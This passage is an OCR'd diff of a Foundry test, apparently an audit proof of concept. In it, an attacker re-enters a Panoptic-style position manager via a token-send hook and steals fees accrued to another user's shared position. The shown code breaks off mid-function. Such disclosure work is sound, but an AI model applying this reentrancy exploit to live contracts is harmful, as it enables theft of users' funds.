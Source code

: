```diff
+        deal(usdc, anotherUser, type(uint128).max);
+
+        // another user mints in the same position
+
+        vm.startPrank(anotherUser);
+
+        IERC20Partial(imBTC).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(usdc).approve(address(sfpm), type(uint256).max);
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        vm.stopPrank();
+
+        // new fees accrual which both the attacker and anotherUser has equal shares of
+
+        IERC20Partial(imBTC).approve(address(router), type(uint256).max);
+        IERC20Partial(usdc).approve(address(router), type(uint256).max);
+        amountReceived = router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 200_000_0e6, 0, 0)
+        );
+
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token0, token1, fee, Bob, block.timestamp, amountReceived, 0, 0)
+        );
+
+        // fees has been accrued
+        vm.prank(address(sfpm));
+        pool.burn(lowTick, highTick, 0);
+
+        (,,, uint128 tokensOwed0, uint128 tokensOwed1) =
+            pool.positions(keccak256(abi.encodePacked(address(sfpm), lowTick, highTick)));
+        assert(tokensOwed0 > 0);
+        assert(tokensOwed1 > 0);
+
+        // attacker mints token 2. this time attacker reenters and transfers the token to another address resetting the feeBase to 0 for the attacker and hence steals all the fees
+        reenter = true;
+        reenterTransferTokenId = shortTokenId;
+        reenterTransferAmount = posSize * 2;
+
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        // all fees have been captured by attacker
+        (,,, tokensOwed0, tokensOwed1) = pool.positions(keccak256(abi.encodePacked(address(sfpm), lowTick, highTick)));
+
+        assert(tokensOwed0 == 0);
+        assert(tokensOwed1 == 0);
+    }
+
+    function onERC1155Received(address, address, uint256 id, uint256, bytes memory) public returns (bytes4) {
+        return this.onERC1155Received.selector;
+    }
+
+    bool reenter = false;
+    uint256 reenterTransferTokenId;
+    uint128 reenterTransferAmount;
+
+    function tokensToSend(
+        address operator,
+        address from,
```